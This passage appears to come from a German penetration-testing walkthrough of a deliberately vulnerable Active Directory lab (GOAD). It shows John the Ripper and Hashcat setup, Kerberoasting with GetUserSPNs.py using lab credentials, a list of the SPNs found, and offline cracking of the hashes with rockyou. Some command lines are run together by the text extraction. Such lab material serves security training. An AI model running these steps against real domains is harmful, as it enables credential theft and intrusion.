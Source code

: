 ### 2.2 Hash-Cracking-Tools

### John the Ripper Setup

```bash
# Installationapt install john
# Konfiguration prüfenjohn --test# Custom Rules für AD-Passwordscat >> /etc/john/john.conf << 'EOF'[List.Rules:ActiveDirectory]# Common AD password patterns$[0-9]$[0-9]$[0-9]$[0-9]$[0-9]$!c$[0-9]$[0-9]EOF
```

### Hashcat Setup

```bash
# Installationapt install hashcat
# GPU-Unterstützung prüfenhashcat -I# Benchmark für Performance-Testhashcat -b
```

---

## Phase 3: Delivery & Exploitation

### 3.1 Kerberoasting

### Service Principal Names (SPNs) extrahieren

```bash
# Gegen WINTERFELL Domain (north.sevenkingdoms.local)GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt
# Gegen KINGSLANDING Domain (sevenkingdoms.local)GetUserSPNs.py sevenkingdoms.local/user:pass -dc-ip 192.168.20.10 -outputfile kerberoast_main.txt
# Gegen ESSOS Domain (essos.local)GetUserSPNs.py essos.local/user:pass -dc-ip 192.168.20.12 -outputfile kerberoast_essos.txt
```

**Gefundene SPNs (Beispiel):**

```
HTTP/eyrie.north.sevenkingdoms.local                 sansa.stark
CIFS/thewall.north.sevenkingdoms.local               jon.snow
HTTP/thewall.north.sevenkingdoms.local               jon.snow
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc
```

### Hash-Cracking mit John the Ripper

```bash
# Standard Dictionary Attackjohn --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt
# Mit Custom Rulesjohn --wordlist=/usr/share/wordlists/rockyou.txt --rules=ActiveDirectory kerberoast.txt
# Ergebnisse anzeigenjohn --show kerberoast.txt
```
